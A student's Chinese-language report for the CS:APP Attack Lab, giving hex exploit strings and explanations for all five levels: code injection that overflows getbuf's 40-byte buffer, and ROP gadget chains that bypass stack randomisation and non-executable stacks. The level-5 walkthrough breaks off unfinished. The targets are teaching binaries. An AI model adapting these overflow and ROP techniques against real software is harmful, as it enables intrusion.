

# ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

* **level1**

  

* **level2**  


* **level3**


* **level4**


* **level5**


## 字符答案

* **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
* **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
* **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
* **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
* **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

* **level1**

&emsp;&emsp;阅读getbuf及touch1对应的汇编语句片段，即下图。


&emsp;&emsp;发现getbuf第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。

&emsp;&emsp;原本进入getbuf之前栈顶存储的应当是下一句执行语句的地址，则将溢出值设置为touch1首地址4017c0，可以误导程序调用touch1。

&emsp;&emsp;因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。

&emsp;&emsp;使用cat level1.txt | ./hex2raw | ./ctarget -q验证答案正确。

* **level2**

&emsp;&emsp;阅读touch2，发现它要求调用前%rdi的值已经被赋为cookie。因此需要执行自己的代码，可以利用缓冲区注入。movq可以用于赋值，而pushq可以把touch2的首地址压入栈中，之后ret。则getbuf后栈中从上到下（栈底到栈顶）的内容为：ret-pushq-movq（此句位于%rsp地址）-%rsp地址，执行顺序为：跳转到%rsp-赋值-压栈-返回-读栈顶开始执行touch2。
注入汇编代码如下：

```S
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

&emsp;&emsp;用gcc -c level.s和objdump -d level.o > level.d指令得到机器码，将它注入缓冲区开头。为了让程序从缓冲区开头开始执行，缓冲区后溢出处所放地址应当为%rsp的地址。用gdb在getbuf设置断点，查询出%rsp的地址，具体操作如下。


&emsp;&emsp;因此答案字符串为：注入代码机器码+仍旧补字符到40byte+%rsp地址。

* **level3**

&emsp;&emsp;阅读touch3，发现要求传递的参数为字符串指针类型，这意味着要预先找地方把字符串存下，再把地址传给%rdi。且hexmatch会随机修改栈，因此如果把字符串存在栈中touch3首地址之后的位置，调用touch3时这部分栈已经被执行并处于%rsp之下，hexmatch申请的新buf就可能覆盖这一段栈，字符串的内容可能会被改变。为了方便起见，（以及我并不需要顾虑我的行动如何破坏了之前的栈，只要正确执行完touch3就达到目的，所以可以不负责任地乱放），不妨就把它放到getbuf栈帧之前，即test栈帧。

&emsp;&emsp;有趣的是，注入的代码显然也会位于touch3之后，为什么不担心它被覆盖呢？这是由于这些代码被执行之后，目的已经达到，寄存器已经被正确修改，所以即使它们被覆盖也无所谓；但是我们为%rdi传入的是字符串指针的地址，后续使用的具体值仍然要到原地址去查找，所以它被覆盖是不能接受的。

&emsp;&emsp;此外，还需要把八位的cookie按字符串格式翻译成16进制，man ascii指令可以调出ASCII码表，按位对照查找即可。

&emsp;&emsp;进入解题步骤，getbuf申请了0x28个byte，再向前推一个地址，即%rsp+0x30。首先如下图用gdb语句查询出该地址：0x5561dca8，在%rsp地址之后继续溢出8个byte，将这个地址内容改为16进制字符串即可。



&emsp;&emsp;movq和pushq流程与level2类似，要注入的代码为：

```S
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

&emsp;&emsp;因此答案字符串即为：注入代码机器码+仍旧补字符到40byte+%rsp首地址+16进制字符串。

* **level4**

&emsp;&emsp;这一部分和之前的区别是开了栈随机化和栈不可执行，因此不能直接注入自己的代码，只能从farm.c指定的代码片中截取机器码执行。注意仍旧是反汇编rtarget，不是farm.c，farm.c只是指出rtarget中哪一部分函数是允许使用的。

&emsp;&emsp;每一句截取的机器码都必须以代表ret的c3结尾，这会让程序以为这个函数结束了，从而继续从栈上取地址，才能够保持程序一直在控制当中。需要的机器码结尾和c3之间可能有一些90，但是它代表空指令，并不会产生影响。

&emsp;&emsp;由于原机器码中可用的指令十分有限，或许不能像前几个level一样采取最直接的方式达到目的。不过既然它作为一道题目出现在这，就说明一定是可以解的，所以只要在ROPtable上试了足够多的方案，总是能找到通路的。

&emsp;&emsp;注意到能使用的指令只有原代码中指令，register之间的movq、popq、movl、andq、orq、cmpq、testq这几种。因此指望直接把cookie赋给%rdi是不现实的。但是0x4019ab处提供了popq %rax，可以提前把cookie写到栈里，再用popq自然地把值转移到%rax。随后幸运地发现%rax到%rdi的赋值也可以用，最后压入touch2首地址即可。

&emsp;&emsp;总结来说，栈中的内容从底到顶为：touch2-movq-cookie-popq，执行顺序为：弹栈给%rax，同时cookie被pop-赋值-调用touch2。

&emsp;&emsp;要执行的代码片为:

```S
popq %rax
movq %rax, %rdi
```

&emsp;&emsp;因此答案字符串即为：40个byte+popq机器码+cookie+movq机器码+touch2首地址。

* **level5**

&emsp;&emsp;这次仍旧需要把存好的字符串地址传给%rdi。和level4不同的是，字符串地址不能存在touch3调用之后，因此不能直接用popq找到值。为此，考虑赋地址的指令lea，再rtarget中搜索，发现0x4019d6处恰好有一条lea (%rdi,%rsi,1),%rax，非常适合做这种操作。

&emsp;&emsp;围绕这条指令，有如下的思路：将%rdi赋为%rsp，将%rsi赋为偏移量，得到%rax后再赋给%rdi。但是由于指令集的限制，并不能很直接地实现目的。

```S
movq %rsp, %rcx
movq %rcx, %rdx
popq %rax
movq %rax, %rcx
movq %ecx, %edx
movq
```

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化（PIE）和栈不可执行（NX）能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。Canary，即push被保存的寄存器后，push一个canary离开时检查是否被修改，能够提供更有效的保护。开始感觉安全攻防是很有趣味的系统实践。

2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。

3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效方法。

4. 关于ROP方法，比漫无目的地尝试更有效的策略是检索farm.c对应代码片中所有可用的指令，然后以寄存器为节点、mov关系为边建立一张图，以能够pop的或已经有有效值的寄存器作为起点，边上的附加信息为对应机器码地址，可以比较清晰地看出可行的变量传递路径。但是这样做的工作量太大了，如果有多个level5规模的需求，可以考虑实施。

5. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。感谢老师和助教学长的指导。
